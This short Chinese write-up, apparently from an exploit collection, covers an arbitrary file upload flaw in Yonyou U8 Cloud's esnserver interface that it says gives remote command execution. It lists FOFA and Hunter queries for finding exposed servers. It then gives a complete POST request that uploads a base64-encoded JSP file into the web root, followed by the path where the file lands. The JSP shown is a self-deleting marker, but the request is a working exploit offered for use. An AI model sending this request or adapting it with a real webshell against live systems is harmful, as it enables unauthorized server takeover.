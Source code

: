# 用友U8-Cloud系统接口esnserver存在任意文件上传漏洞
用友U8 cloud前台任意文件上传导致远程命令执行漏洞。未经授权攻击者通过漏洞上传任意文件，最终可以获取服务器权限。

## fofa

```javascript
title=="U8C"
```

## hunter

```javascript
app.name="用友 U8 Cloud"
```

## poc
```plain
POST /service/esnserver HTTP/1.1 
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0 
Accept-Encoding: gzip, deflate 
Content-Type: application/x-www-form-urlencoded 
Token: 469ce01522f64366750d1995ca119841 
Content-Length: 583 
 
{"invocationInfo":{"ucode":"123","dataSource":"U8cloud","lang":"en"},"method":"uploadFile","className":"nc.itf.hr.tools.IFileTrans","param":{"p1":"UEsDBAoAAAAAAA9tSFkDJCbXbQAAAG0AAAAKAAAAY29tcHJlc3NlZDwlIG91dC5wcmludGxuKCIxMjM0NTYiKTsgbmV3IGphdmEuaW8uRmlsZShhcHBsaWNhdGlvbi5nZXRSZWFsUGF0aChyZXF1ZXN0LmdldFNlcnZsZXRQYXRoKCkpKS5kZWxldGUoKTsgJT5QSwECHwAKAAAAAAAPbUhZAyQm120AAABtAAAACgAkAAAAAAAAACAAAAAAAAAAY29tcHJlc3NlZAoAIAAAAAAAAQAYACbiFZZEGdsBHOcblEgZ2wERXscDRxnbAVBLBQYAAAAAAQABAFwAAACVAAAAAAA","p2":"webapps/u8c_web/test123.jsp"},"paramType":["p1:[B","p2:java.lang.String"]} 
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1728923468100-14a051e7-c93c-4c37-9a6f-0782a64222a7.png)

上传文件位置

```plain
/test123.jsp
```



